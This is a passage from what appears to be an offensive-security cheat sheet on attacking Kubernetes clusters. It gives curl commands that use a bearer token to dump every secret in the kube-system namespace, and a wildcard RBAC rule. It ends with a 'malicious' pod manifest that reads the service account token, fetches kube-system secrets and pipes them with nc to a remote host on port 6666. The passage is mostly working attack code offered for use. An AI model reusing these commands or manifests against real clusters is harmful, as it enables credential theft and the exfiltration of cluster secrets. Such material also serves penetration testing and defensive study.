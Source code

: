 While there is no official way to check for privileged mode from _within_ a container, checking if `/dev/kmsg` exists will usually suffice.

## RBAC Configuration

### Listing Secrets

An attacker that gains access to list secrets in the cluster can use the following curl commands to get all secrets in "kube-system" namespace.

```powershell
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
curl -k -v -H "Authorization: Bearer <jwt_token>" -H "Content-Type: application/json" https://<master_ip>:6443/api/v1/namespaces/default/secrets | jq -r '.items[].data'
```

### Access Any Resource or Verb

```powershell
resources:
- '*'
verbs:
- '*'
```

### Pod Creation

Check your right with `kubectl get role system:controller:bootstrap-signer -n kube-system -o yaml`.
Then create a malicious pod.yaml file.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
    - name: alpine
      image: alpine
      command: ["/bin/sh"]
      args:
        [
          "-c",
          'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000',
        ]
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```
